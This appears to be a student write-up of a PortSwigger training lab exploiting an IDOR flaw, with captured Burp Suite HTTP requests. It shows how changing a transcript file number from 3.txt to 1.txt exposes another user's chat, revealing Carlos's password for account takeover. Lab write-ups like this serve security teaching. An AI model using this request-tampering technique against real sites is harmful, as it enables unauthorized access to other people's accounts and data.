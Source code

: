 Kindly go through the video below for the demonstration of our take on exploiting the chosen vulnerability: IDOR

DEMO VIDEO: https://drive.google.com/drive/folders/1fRn__sgbEjkxFmi94SlCWaPlWWOESOKV?usp=sharing


In this demo video, we will be able to see how we have implemented the IDOR vulnerability using the Portswigger lab. Initially, we are to bypass the authentication of a user but we do not have his login credentials. However, we do know that his username is Carlos. In order to extract this information, we click on the Live Chat option and start chatting. 

Simultaneoulsy, we turn on the proxy and connect to Burpsuite (Instructions on how to install Burpsuite are listed on the BurpSuite Installation file from the main menu). Once we are connected to Burpsuite, we turn on the Intercept and capture the live data from the website and monitor the traffic accordingly. 

Next, we converse a bit with the automated agent on the site and click on "View Transcript". This as well is captured on BurpSuite. The following can be seen on the Burpsuite tab before the chat is initiated:

GET /chat HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Referer: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net/

Upgrade-Insecure-Requests: 1

Te: trailers

Connection: close


Once the Live Chat is initiated, the following is captured:

GET /academyLabHeader HTTP/1.1

Host: ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: /

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Sec-WebSocket-Version: 13

Origin: https://ac3c1f491e41921ac04132ce00c100ed.web-security-academy.net

Sec-WebSocket-Key: CXXIpKR8C4joiI8aLp8w9A==

Connection: keep-alive, Upgrade

Cookie: session=z4OEDOySGTju5qpD5KcmIibmTUlzBaMT

Pragma: no-cache

Cache-Control: no-cache

Upgrade: websocket


On analysis, we can see that a simple GET method is used to capture data and whatever is entered in the field is simply returned. This is where our exploitation comes to light. On clicking Forward, the requests are passed and we move to the next steps. Now, to get hold of the password of the user, we need to understand that at some point, the automated agent has confirmed with the user that the password is so and so. For us to know what this is, we simply change the following:


From: GET /download-transcript/3.txt HTTP/1.1
To: GET /download-transcript/1.txt HTTP/1.1

Once these changes are made, we simply have to click on the Forward button to bypass the requests and finally reach the point where the transcript is available for download. Post downloading of the new "1.txt" file, we open it to find the "confidential" conversation between the two to find out what Carlos' password is. 

The extracted password is simply copy pasted into the login page and voila, we have now exlpoited the vulnerability without much work. 


